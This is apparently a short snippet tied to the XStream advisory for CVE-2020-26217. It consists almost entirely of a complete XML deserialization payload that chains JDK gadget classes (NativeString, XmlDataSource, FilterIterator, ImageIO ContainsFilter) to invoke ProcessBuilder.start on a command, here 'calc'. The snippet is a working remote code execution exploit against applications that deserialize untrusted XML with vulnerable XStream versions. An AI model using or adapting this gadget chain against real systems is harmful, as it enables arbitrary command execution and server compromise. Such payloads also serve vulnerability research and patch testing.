 - https://x-stream.github.io/CVE-2020-26217.html

```xml
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='java.io.SequenceInputStream'>
                            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                                <iterator class='javax.imageio.spi.FilterIterator'>
                                    <iter class='java.util.ArrayList$Itr'>
                                        <cursor>0</cursor>
                                        <lastRet>-1</lastRet>
                                        <expectedModCount>1</expectedModCount>
                                        <outer-class>
                                            <java.lang.ProcessBuilder>
                                                <command>
                                                    <string>calc</string>
                                                </command>
                                            </java.lang.ProcessBuilder>
                                        </outer-class>
                                    </iter>
                                    <filter class='javax.imageio.ImageIO$ContainsFilter'>
                                        <method>
                                            <class>java.lang.ProcessBuilder</class>
                                            <name>start</name>
                                            <parameter-types/>
                                        </method>
                                        <name>start</name>
                                    </filter>
                                    <next/>
                                </iterator>
                                <type>KEYS</type>
                            </e>
                            <in class='java.io.ByteArrayInputStream'>
                                <buf></buf>
                                <pos>0</pos>
                                <mark>0</mark>
                                <count>0</count>
                            </in>
                        </is>
                        <consumed>false</consumed>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```
